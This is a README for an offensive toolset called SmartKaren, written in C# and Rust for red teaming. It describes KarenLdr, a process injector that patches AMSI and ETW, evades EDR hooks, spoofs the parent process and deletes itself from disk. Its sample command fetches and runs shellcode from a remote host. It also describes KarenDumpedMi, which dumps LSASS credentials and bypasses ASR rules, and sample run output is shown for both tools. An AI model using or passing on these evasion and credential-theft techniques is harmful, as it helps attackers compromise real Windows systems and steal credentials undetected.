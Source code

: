 # SmartKaren
A series of custom offensive toolset and utilities written in C# and Rust. This project is developed to explore AV evasion techniques for aiding red teaming operations. 

## KarenLdr
KarenLdr is a compact Process Injector with various evasion techniques such as AMSI bypass and ETW patching built-in to it. To evade static signature, KarenLdr leverages low level NT*API calls (with the exception of AMSI & ETW patching) and a modified version of D/Invoke library. 

At it's core, KarenLdr leverages a combination of `NtMapViewSection` and `NtQueueApcThread` to steer away from the classic process injection method of `VirtualAlloc`, `VirtualProtect` and `CreateThread` that are heavily signatured. To achieve this, the remote process is spawned under a suspended state by tampering the Process Creation Flag with `CREATE_SUSPENDED`. This technique is useful in bypassing Attack Surface Reduction (ASR) rule that blocks the creation of threads.

At runtime, a fresh copy of `ntdll.dll` is loaded into the process. The original ntdll.dll that was hooked by EDR is left untouched. All NT*API are then exported and called from the clean copy of ntdll.dll instead. This EDR evasion method is especially effective because the integrity of EDR hooks are not tampered with. Alternatively, direct syscalls can also be enabled by specifying the `--syscall` flag.

Additionally, it also supports Parent Process ID (PPID) Spoofing, allowing the sacrificial process to spawn under an arbitrary process using it's PID. If the target `-t, --target` is not specified, it will perform self-injection instead. At the end of execution, the executable file will be wipped from disk automatically to erase traces.

**Future Enhancement:** Indirect Syscalls & Threadless Injection
```
C:\>KarenLdr.exe -u "https://192.168.231.128:443/beacon.bin" -t notepad -p 9524 -k 
     _        _______  _______  _______  _        _        ______   _______
    | \    /\(  ___  )(  ____ )(  ____ \( (    /|( \      (  __  \ (  ____ )
    |  \  / /| (   ) || (    )|| (    \/|  \  ( || (      | (  \  )| (    )|
    |  (_/ / | (___) || (____)|| (__    |   \ | || |      | |   ) || (____)|
    |   _ (  |  ___  ||     __)|  __)   | (\ \) || |      | |   | ||     __)
    |  ( \ \ | (   ) || (\ (   | (      | | \   || |      | |   ) || (\ (
    |  /  \ \| )   ( || ) \ \__| (____/\| )  \  || (____/\| (__/  )| ) \ \__
    |_/    \/|/     \||/   \__/(_______/|/    )_)(_______/(______/ |/   \__/

 KarenLdr: D/Invoke + NT*API + Manual Mapping + Direct Syscall + AMSI & ETW Patching + PPID Spoofing

  -u, --url      Required. Remote URL address for raw shellcode.

  -t, --target   Specify the target/victim process. Default: Self-injection

  -p, --parent   Spoof victim process under a Parent Process ID (This option is ignored for self-injection)

  -k, --kill     Enable self-destruct to auto wipe file from disk.

  -s, --syscall  Enable Direct Syscall. Default: Manual Mapping

  -h, --help     Display help screen manual.
  
|--------------
| Payload       : https://192.168.231.128:443/beacon.bin
| Process       : C:\Windows\System32\notepad.exe
| PPID Spoofing : 9524
| Self Destruct : True
|--------------

[>] Patching Event Tracing for Windows (ETW)
    |-> Address of ntdll.dll: 0x7FFD8DEF0000
    |-> Location of EtwEventWrite(): 0x7FFD8DF3F1F0
    |-> Patching Memory: 0x00000020 -> 0x04
    |-> Restoring Memory: 0x04 -> 0x00000020

[>] Patching Anti Malware Scan Interface (AMSI)
    |-> Address of AmsiScanBuffer(): 0x7FFD75B83860
    |-> Successfully Patched AMSI!

[>] CreateProcessW()
    |-> Target Process Created!
    |-> PID: 22232

[>] Fetching Payload
    |-> Payload Retrieved Successfully!

[>] Resolving Addresses of ntdll.dll
    |-> Original ntdll.dll: 0x7ffd8def0000
    |-> New copy of ntdll.dll: 0x29cb56e0000

[>] NtCreateSection()
    |-> New Section Created!

[>] NtMapViewOfSection()
    |-> New Section Mapped!

[>] Copied Shellcode to Memory!

[>] NtMapViewOfSection()
    |-> Memory Region Mapped to Target Process!
    |-> Base Address: 0x209ED370000

[>] NtQueueApcThread()
    |-> Queueing APC!

[>] NtSetInformationThread()
    |-> Thread Priority Set!

[>] NtResumeThread()
    |-> Resuming Thread!

[>] DeleteProcThreadAttributeList()
    |-> Deleting Process Artifacts!

[>] CloseHandle()
    |-> Closing Process Handle!

[>] CloseHandle()
    |-> Closing Thread Handle!

[>] KarenLdr.exe removed from disk!
```

## KarenDumpedMi
KarenDumpedMi demonstrates 2 different methods to dump the Local Security Authority Subsystem Service (LSASS) process from memory. This requires SYSTEM* privileges and AMSI bypass to interact with the LSASS process.

Method 1 leverages `MiniDumpWriteDump` from `Dbghelp.dll` to perform a user-mode minidump. To evade behavioural detection, spoof the PPID to `winlogon.exe` and set the spawnto sacrificial process to either `WerFault.exe` or `svchost.exe`.

Method 2 leverages `WmiPrvSE.exe` and shellcode injection to dump LSASS on an endpoint with the ASR rule of "Block credential stealing from the Windows local security authority subsystem (lsass.exe)" enabled.
```
C:\>KarenDumpedMi.exe
     _        _______  _______  _______  _        ______            _______  _______  _______  ______   _______ _________
    | \    /\(  ___  )(  ____ )(  ____ \( (    /|(  __  \ |\     /|(       )(  ____ )(  ____ \(  __  \ (       )\__   __/
    |  \  / /| (   ) || (    )|| (    \/|  \  ( || (  \  )| )   ( || () () || (    )|| (    \/| (  \  )| () () |   ) (
    |  (_/ / | (___) || (____)|| (__    |   \ | || |   ) || |   | || || || || (____)|| (__    | |   ) || || || |   | |
    |   _ (  |  ___  ||     __)|  __)   | (\ \) || |   | || |   | || |(_)| ||  _____)|  __)   | |   | || |(_)| |   | |
    |  ( \ \ | (   ) || (\ (   | (      | | \   || |   ) || |   | || |   | || (      | (      | |   ) || |   | |   | |
    |  /  \ \| )   ( || ) \ \__| (____/\| )  \  || (__/  )| (___) || )   ( || )      | (____/\| (__/  )| )   ( |___) (___
    |_/    \/|/     \||/   \__/(_______/|/    )_)(______/ (_______)|/     \||/       (_______/(______/ |/     \|\_______/

[>] Finding Alive Process
    |-> Found lsass.exe
    |-> PID: 920

[>] Finding MiniDumpWriteDump
    |-> Location of MiniDumpWriteDump(): 0x7FFD7E8F6C50

[>] Getting Handles
    |-> Process Handle: 0x2CC
    |-> File Handle (karen.dmp): 0x2C4

[>] Invoking MiniDumpWriteDump
    |-> Successfully Called MiniDumpWriteDump()
    |-> COMPLETED! You can now parse karen.dmp!
    
C:\>KarenDumpedMi.exe
     _        _______  _______  _______  _        ______            _______  _______  _______  ______   _______ _________
    | \    /\(  ___  )(  ____ )(  ____ \( (    /|(  __  \ |\     /|(       )(  ____ )(  ____ \(  __  \ (       )\__   __/
    |  \  / /| (   ) || (    )|| (    \/|  \  ( || (  \  )| )   ( || () () || (    )|| (    \/| (  \  )| () () |   ) (
    |  (_/ / | (___) || (____)|| (__    |   \ | || |   ) || |   | || || || || (____)|| (__    | |   ) || || || |   | |
    |   _ (  |  ___  ||     __)|  __)   | (\ \) || |   | || |   | || |(_)| ||  _____)|  __)   | |   | || |(_)| |   | |
    |  ( \ \ | (   ) || (\ (   | (      | | \   || |   ) || |   | || |   | || (      | (      | |   ) || |   | |   | |
    |  /  \ \| )   ( || ) \ \__| (____/\| )  \  || (__/  )| (___) || )   ( || )      | (____/\| (__/  )| )   ( |___) (___
    |_/    \/|/     \||/   \__/(_______/|/    )_)(______/ (_______)|/     \||/       (_______/(______/ |/     \|\_______/

[>] Finding Alive Process
    |-> Found lsass.exe
    |-> PID: 920

[>] Finding MiniDumpWriteDump
    |-> Location of MiniDumpWriteDump(): 0x7FFD7E8F6C50

[>] Getting Handles
    |-> Unable to Open Process Handle!

[>] Method 1 Failed! Trying Method 2
    |-> Dumping LSASS With ASR Bypass!

[>] Spawning WmiPrvSE.exe
    |-> PID: 20856

[>] COMPLETED! You can now parse lsass.dmp!
```

## Karen2Gadget
